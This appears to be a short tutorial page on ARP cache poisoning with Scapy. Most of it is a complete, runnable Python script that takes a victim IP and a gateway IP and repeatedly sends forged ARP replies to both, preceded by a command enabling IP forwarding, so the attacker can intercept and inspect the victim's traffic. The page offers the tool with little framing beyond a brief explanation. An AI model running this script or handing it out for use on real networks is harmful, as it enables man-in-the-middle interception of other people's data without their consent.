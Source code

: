 ```yaml
---
title: "Arp cache poisoning"
date: 2019-01-06
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


With Scapy you can easily send crafted ARP reply packets. The idea is to constantly send the victim ARP replies telling it we are the router...
We do the same for the router, we tell it we are the victim machine. After we become the man in the middle we can intercept & inspect all data.

To allow forwarding of packets between the victim and the gateway we need to enable ip_forward:

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
```

The function get_mac sends arp request message ("Who has") to the broadcast address, so all clients on the LAN receive it,  
we will get the correct mac address back from the target_ip.  

Now that we have the correct mac address from the target we can start sending spoofed reply packets with spoof function ('target_ip' <b>is at</b> 'attacker mac address')   

![arp reply 1](1at.png)

and

![arp reply 2](18at.png)

The full code:  

```python
#!/usr/bin/env python
import scapy.all as scapy
import time
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target",
                        help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway",
                        help="Gateway IP")
    options = parser.parse_args()
    return options

# Get target mac address using ip address
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1,
                              verbose=False)[0]
    return answered_list[0][1].hwsrc

# Change mac address in arp table
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,
                       psrc=spoof_ip)
    scapy.send(packet, verbose=False)

# Restore mac address in arp table
def restore(dest_ip, source_ip):
    dest_mac = get_mac(dest_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=dest_ip, hwdst=dest_mac,
                       psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

options = get_arguments()
sent_packets_count = 0
try:
    while True:
        spoof(options.target, options.gateway)
        spoof(options.gateway, options.target)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] ARP spoofing started - packets sent: " + str(sent_packets_count))
        time.sleep(2)
except KeyboardInterrupt:
    print("\nCTRL+C pressed .... Reseting ARP tables. Please wait")
    restore(options.target, options.gateway)
    restore(options.gateway, options.target)
    print("\nARP table restored. Quiting")

```
